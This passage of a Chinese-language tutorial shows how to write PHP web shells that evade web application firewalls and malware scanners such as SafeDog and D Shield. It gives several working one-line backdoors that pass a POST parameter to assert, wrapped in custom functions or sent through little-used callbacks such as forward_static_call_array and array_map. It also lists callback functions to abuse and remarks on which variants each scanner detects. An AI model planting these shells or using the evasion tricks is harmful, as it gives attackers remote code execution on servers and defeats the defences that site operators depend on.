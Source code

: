 反之

```
<?php 
function kdog($a){
    assert($a);
}
kdog($_POST[x]);
?>

```

效果一样，这种绕过方法，对安全狗还是比较有效的 在 d 盾面前就显得小儿科了 ，不过后面会讲到如何用定义函数的方法来 绕过 d 盾

```
call_user_func_array()
call_user_func()
array_filter()
array_walk()
array_map()
registregister_shutdown_function()
register_tick_function()
filter_var()
filter_var_array()
uasort()
uksort()
array_reduce()
array_walk()
array_walk_recursive()

```

回调函数大部分已经被安全软件加入全家桶套餐 所以找到一个生僻的不常用的回调函数来执行 比如

```
<?php 
forward_static_call_array(assert,array($_POST[x]));
?>

```

这个函数能过狗，但是 D 盾显示是一级

前面说过众多回调函数已经被加入豪华套餐了，怎么绕过呢，其实也很简单 那就是定义个函数 或者类来调用

定义一个函数

```
<?php
function test($a,$b){
    array_map($a,$b);
}
test(assert,array($_POST['x']));
?>

```
